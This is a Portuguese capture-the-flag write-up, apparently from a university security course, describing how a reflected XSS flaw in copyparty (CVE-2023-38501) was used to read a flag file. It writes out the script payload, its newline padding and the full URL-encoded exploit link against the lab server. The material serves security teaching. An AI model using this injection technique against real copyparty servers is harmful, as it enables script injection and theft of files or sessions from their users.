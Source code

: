 # CTF XSS

Este CTF foi realizado no servidor [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:4005/).

Após verificarmos que o ficheiro flag.txt não fornece acesso direto, mesmo estando descaradamente exposto no server, exploramos os outros ficheiros listados.

Deparámo-nos com o ficheiro SECURITY.md:

![image4](images_CTF7.md/image4.png)

Acedemos ao repositório GitHub ( [https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) ) onde uma vulnerabilidade copyparty estava descrita (CVE-2023-38501):

![image1](images_CTF7.md/image1.png)

Desta forma, descobrimos que, para acedermos à flag via um ataque de XSS, teríamos que explorar esta vulnerabilidade, que permite que um script malicioso seja injetado no URL.

Usando este exemplo:

![image7](images_CTF7.md/image7.png)

Sabemos então que antes de pôr o nosso script temos de pôr o seguinte url:

http://ctf-fsi.fe.up.pt:5007/?k304=y

Vamos, então, construir o script malicioso:



\<script\>  
fetch('/flag.txt')  
.then(response \=\>response.text())  
\</script\>

(Para saber que era preciso deixar duas linhas em branco fomos testando por tentativa e erro, testamos primeiro sem nenhuma, depois com uma e com duas já funcionou, cada nova linha é codificada com %0A . Isto depende de quantos espaços é que o servidor precisa para a separação entre o url e o código de javascript.)

Convertemos em URL:

![image6](images_CTF7.md/image6.png)

(no site: [https://www.urlencoder.org/](https://www.urlencoder.org/) )

Observamos no resultado:

%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E

Juntamos com o ínicio:

[http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E](http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E)

![image3](images_CTF7.md/image3.png)

Vimos parar a esta página.

Abrimos as ferramentas de desenvolvedor com f12 e vamos à tab de network.

![image5](images_CTF7.md/image5.png)

Damos refresh à página:

![image2](images_CTF7.md/image2.png)

Selecionamos superblyHiddenFlagDI79….:  

![image8](images_CTF7.md/image8.png)

E colamos a resposta:

flag{youGotMeReallyGood}

Concluindo assim o CTF.
